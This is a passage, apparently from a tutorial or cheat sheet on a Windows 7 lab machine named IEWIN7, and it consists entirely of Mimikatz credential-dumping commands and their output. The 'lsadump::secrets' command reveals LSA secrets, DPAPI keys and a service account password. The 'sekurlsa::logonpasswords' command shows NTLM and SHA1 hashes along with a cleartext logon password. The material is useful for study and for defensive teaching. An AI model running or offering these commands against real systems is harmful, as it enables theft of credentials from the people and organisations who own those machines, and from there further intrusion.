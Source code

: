 ```

RID  : 000003ec (1004)
User : unpriv
  Hash NTLM: 3dbde697d71690a769204beb12283678
```

```
mimikatz # lsadump::secrets
Domain : IEWIN7
SysKey : 358fdae41881dad749ff1fefa2ce5c87

Local name : IEWIN7 ( S-1-5-21-1610009768-122519599-941061767 )
Domain name : WORKGROUP

Policy subsystem is : 1.11
LSA Key(s) : 1, default {f409f8e1-3371-f835-61d2-1f4e14c89687}
  [00] {f409f8e1-3371-f835-61d2-1f4e14c89687} 0293a24c3cf7c25d333b13f7814bd2ccde82e2b1c18391f76fb890b01f5fa225

Secret  : DefaultPassword
cur/text: Passw0rd!
old/text: ROOT#123

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 d7 e7 10 e0 e1 fe e9 a6 fa 72 6c e5 6d bd f2 fb b3 20 2d 1e ac 17 fe 50 74 dd ae a2 1a 32 dc d9 18 b6 5f 26 91 b1 dd c4 
    full: d7e710e0e1fee9a6fa726ce56dbdf2fbb3202d1eac17fe5074ddaea21a32dcd918b65f2691b1ddc4
    m/u : d7e710e0e1fee9a6fa726ce56dbdf2fbb3202d1e / ac17fe5074ddaea21a32dcd918b65f2691b1ddc4
old/hex : 01 00 00 00 37 e8 8b b1 d4 c5 05 d8 90 64 8b 7d 45 38 85 3c 20 f8 5e 77 80 5e 7f 25 b2 fc dd 7d 22 33 6b 26 b5 53 0c ea 4e e4 f4 cc 
    full: 37e88bb1d4c505d890648b7d4538853c20f85e77805e7f25b2fcdd7d22336b26b5530cea4ee4f4cc
    m/u : 37e88bb1d4c505d890648b7d4538853c20f85e77 / 805e7f25b2fcdd7d22336b26b5530cea4ee4f4cc

Secret  : _SC_OpenSSHd / service 'OpenSSHd' with username : .\sshd_server
cur/text: D@rj33l1ng
```

Display logon passwords.

```
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 132660 (00000000:00020634)
Session           : Interactive from 1
User Name         : IEUser
Domain            : IEWIN7
Logon Server      : IEWIN7
Logon Time        : 10/8/2022 8:04:26 PM
SID               : S-1-5-21-1610009768-122519599-941061767-1000
        msv :
         [00010000] CredentialKeys
         * NTLM     : fc525c9683e8fe067095ba2ddc971889
         * SHA1     : e53d7244aa8727f5789b01d8959141960aad5d22
         [00000003] Primary
         * Username : IEUser
         * Domain   : IEWIN7
         * NTLM     : fc525c9683e8fe067095ba2ddc971889
         * SHA1     : e53d7244aa8727f5789b01d8959141960aad5d22
        tspkg :
        wdigest :
         * Username : IEUser
         * Domain   : IEWIN7
         * Password : Passw0rd!
        kerberos :
         * Username : IEUser
```